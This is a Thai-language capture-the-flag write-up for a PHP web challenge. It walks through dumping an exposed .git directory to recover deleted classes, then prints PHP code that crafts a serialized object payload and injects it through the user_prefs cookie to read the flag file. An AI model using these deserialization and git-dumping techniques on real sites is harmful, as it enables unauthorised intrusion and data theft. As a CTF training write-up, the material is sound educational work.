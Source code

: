 (ขอขอบคุณเฉลยฟรีจากทาง STH ที่มาไลฟ์ เล่นทำเอาซะปวดหัวเลย)

> คุณได้รับมอบหมายให้หาช่องโหว่ที่ทำให้เว็บนี้เคยถูกแฮกในอดีต ด้วยการทำ Pentest เอาให้เต็มที่ มีโค้ดให้ด้วย
> 
> 
> URL เว็บโจทย์ (มี Flag): [https://wtctt24.open.web4.p7z.pw](https://wtctt24.open.web4.p7z.pw/)
> 
> โค้ดเว็บ (ไม่มี Flag): https://static.wtctt24.p7z.pw/open_web4.zip
> 
> หมายเหตุ:
> 
> - Flag จะอยู่ในรูปแบบ flag{junior_webX_XXX} เช่น flag{junior_web1_e758148af358200bf364c8d9282b7f04}
> - ช่องโหว่ไม่จำเป็นต้องทำ Port Scan ด้วย Nmap
> - ช่องโหว่ไม่จำเป็นต้องทำ URL Fuzzing เพื่อหา Directory หรือ File ที่เป็นชื่อลับ
> - โจทย์ไม่ได้ถูกออกแบบมาให้แก้ไข โดยใช้โปรแกรมสแกนช่องโหว่อัตโนมัติ

![image](https://github.com/user-attachments/assets/ae7da74d-a92e-4ddc-b6fc-9c36c30069dd)

เว็บนี้ก็ให้โค้ดมาเช่นเดิม ลองไปอ่านโค้ดดู รอบนี้เป็นเว็บ PHP แล้ว

```php
<?php

spl_autoload_register(function ($class_name) {
    $path = __DIR__ . '/classes/' . $class_name . '.php';
    if (file_exists($path)) {
        include $path;
    }
});

// Retrieve and use preferences
$admin = false;

// Set default preferences 
if (!isset($_COOKIE['user_prefs'])) {
    $preferences = ['theme' => 'light', 'role' => 'user'];
    setcookie('user_prefs', serialize($preferences), time() + 3600, "/"); // Set cookie for 1 hour
} else {
    // Read user preferences
    $preferences = @unserialize($_COOKIE['user_prefs']); 

    if ($preferences && isset($preferences['role']) && $preferences['role'] === 'admin') {
        $admin = true;
    }
}
?>
```

ลองดูโค้ดไวๆ ก็จะพบว่าแอพมีการ check cookie `user_prefs` ซึ่งจะมีการ unserialize ออกมาถ้ามีการใส่ cookie นี้เข้ามา ถ้าไม่ได้ใส่มาก็ serialize ปกติ ไม่พอ ยังมี function `sql_autoload_register` ที่ทำการโหลด class โดยอัตโนมัติเพื่อเอาเข้ามาใน path `classes`
ซึ่งมาแบบนี้ Deserialize ชัวร์ ถ้าเราสร้าง object ที่สอดใส้โค้ดอันตรายยิงเข้าไปใน cookie ได้ เราก็สามารถโจมตีตัว PHP จากการโหลดคลาสได้ แต่ติดที่ว่าตอนนี้ เราไม่รู้ว่าโค้ดมันรัน class อะไรบ้าง ลองไปหาอะไรเพิ่มในเว็บซิ

![image](https://github.com/user-attachments/assets/ce8beead-f294-469e-b154-bab46a8f8b84)

คุ้ย page source ก็เจอ hint ที่พูดถึง git repo ก็เป็นอันรู้กันว่าบนเว็บนี้ มี git วิ่งให้เราไปดูดได้แน่นอน พิสูจน์ด้วยการ browse `.git` path.

![image](https://github.com/user-attachments/assets/79830809-583b-45a3-b7f9-cdb03b52ec62)

พรูฟได้แล้วทีนี้ก็ต้องไปหาวิธี dump git กันต่อ เราเลือกใช้ตัว `gitdumper` ในการ dump repo ออกมา

![image](https://github.com/user-attachments/assets/c5b8ee8a-d2d9-4022-b947-97802f2b38f0)

![image](https://github.com/user-attachments/assets/fcc3f3af-4bde-4f44-992a-1470ca2f6ce7)

![image](https://github.com/user-attachments/assets/82828b49-87ee-419d-904b-9c122ad9aa60)

Check `git status` & `git log` ขึ้นมาก็จะเจอว่ามีการลบ directory `classes` ทิ้งไปใน commit ล่าสุด ซึ่งถ้าเราย้อนกลับไปที่ commit ก่อนหน้า ก็จะเห็นไฟล์ทั้งหมด
ส่อง 2 commit ล่าสุดจะเจอเป็นแค่ไฟล์ `.env` ที่มี password

![image](https://github.com/user-attachments/assets/597f47ff-7fef-4137-ba12-e3c543fa3707)

เลยมาที่ commit แรกสุด เราก็จะเจอไฟล์ต่างๆ ที่จะมีพวก classes ต่างๆที่ถูกลบไป

![image](https://github.com/user-attachments/assets/8a574070-5b09-41d0-9906-2febc3defa42)

เราจะพบว่า path folder `classes` จะมีไฟล์เป็นชื่อต่างๆ มานั่งไล่ดูไปทีละตัวเลยดีกว่า
อย่างที่เรารู้กันว่าถ้าเราสร้าง serialize จาก object แล้วค่านั้นถูก unserialized ออก ซึ่ง unserialized object นั้นมี function `_destruct()` (ที่รันอัตโนมัติ) ถ้าเราไล่ไปเรื่อยๆ เราจะเจอตัว function นี้ในไฟล์ `L3m4n5O6.php` ที่มีการเรียกตัว `__invoke()` ที่จะไปอ่านไฟล์ flag.txt แต่ต้องมีมีการ authorize โดยการตั้ง key ให้ตรงกับค่าที่กำหนด

![image](https://github.com/user-attachments/assets/97981cc6-502a-4b40-9972-6a4a70b9e52b)

พอรู้แบบนี้แล้วก็จัดการ craft payload serialize object ได้เลยจ้า

```php
<?php
class L3m4n5O6 {
    public $filePath;
    private $authorized = false;

    public function __construct($filePath = '/flag.txt') {
 
        $this->filePath = $filePath;
    }

    public function authorize($key) {

        if ($key === 'e912f5a544fe47b07c52553dfffa0a6d') {
            $this->authorized = true;
        }
    }

    public function __invoke() {
        if ($this->authorized && file_exists($this->filePath)) {
            echo "<pre>" . htmlspecialchars(file_get_contents($this->filePath)) . "</pre>";
        }
    }

    public function __destruct() {
        $this();
    }
}

$obj = new L3m4n5O6('/flag.txt');
$obj->authorize('e912f5a544fe47b07c52553dfffa0a6d');
$ser = serialize($obj);

echo $ser;
echo "\n";
echo urlencode($ser);
?>
```

![image](https://github.com/user-attachments/assets/55b2c931-d55f-4d67-ade5-353859411f58)

ก็จะสรุป step ได้คร่าวๆ ก็คือ เมื่อเราเอา payload ไปยัดใส่ cookie `user_prefs` ก็จะทำการ unserialize objects เกิดการรันตัว `__destruct()` ไปเรียก `__invoke()` ก่อนจะทำการเช็ค authorized และเอา flag จาก `file_get_contents`
ว่าแล้วก็เอา serialized payload ที่เรา craft เมื่อกี๊ไปยัดใส่ใน `user_prefs` ใน request แล้วเราก็จะได้ flag ออกมา…แบบสู้ชีวิต

![image](https://github.com/user-attachments/assets/0105ad95-dd4f-4101-ae60-ebb7c755f47d)

